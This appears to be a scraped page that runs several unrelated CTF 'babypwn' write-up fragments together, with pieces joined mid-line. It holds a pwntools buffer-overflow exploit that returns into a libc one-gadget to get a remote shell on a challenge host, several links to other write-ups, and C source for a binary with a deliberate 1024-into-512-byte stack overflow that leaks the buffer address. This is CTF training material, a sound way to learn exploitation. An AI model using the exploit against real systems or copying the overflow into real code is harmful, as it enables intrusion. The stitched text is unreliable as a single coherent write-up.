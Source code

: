 This, does not work:

```python  
#!/usr/bin/env python3

from pwn import *

context.arch = 'x86_64'  
context.log_level = 'INFO'  
context.log_file = 'remote.log'  
p = remote('chal.cybersecurityrumble.de', 1990)

libc = ELF('./libc6_2.31-0ubuntu9_amd64.so')  
libc.symbols['gadget'] = [0xe6ce3, 0xe6ce6, 0xe6ce9][2]  
libc.address = 0x7ffff7a6b000

payload  = 2 * b'A'  
payload += (0x78 - len(payload)) * b'\0'  
payload += p64(libc.sym.gadget)

p.sendlineafter('return.\n',payload)  
p.interactive()  
```

I tested all three.  However, this did work with an Ubuntu 18.04 container and
libc 2.27.  So I'll leave it here and an example for the cases where it may
work.  

Original writeup (https://github.com/datajerk/ctf-write-
ups/tree/master/cybersecurityrumblectf2020/babypwn).input a long string to get flag  
[wp](http://note.taqini.space/#/ctf/HackZoneVIIICTF-2020/?id=babypwn)

Original writeup (http://taqini.space/2020/04/12/HackZone-VIII-CTF-pwn-
writeup/#More).https://www.pwndiary.com/write-ups/p-w-n-ctf-2018-babypwn-write-up-pwn115/

Original writeup (https://www.pwndiary.com/write-ups/p-w-n-ctf-2018-babypwn-
write-up-pwn115/).https://brycec.me/posts/corctf_2022_challenges#babypwn

Original writeup (https://brycec.me/posts/corctf_2022_challenges#babypwn).We were given a binary file and it source code.

```  
#include <stdio.h>  
#include <unistd.h>

int main() {  
  setbuf(stdout, NULL);

  char username[512];

  printf("You shell play a game against @gehaxelt! Win it to get
./flag.txt!\n");  
  printf("Your game slot is at: %p\n", username);  
  printf("What's your name?\n");  
  read(1, username, 1024);  
  printf("Ok, it's your turn, %s!\n", username);  
  printf("You lost! Sorry :-(\n");

  return 0;  
}  
```

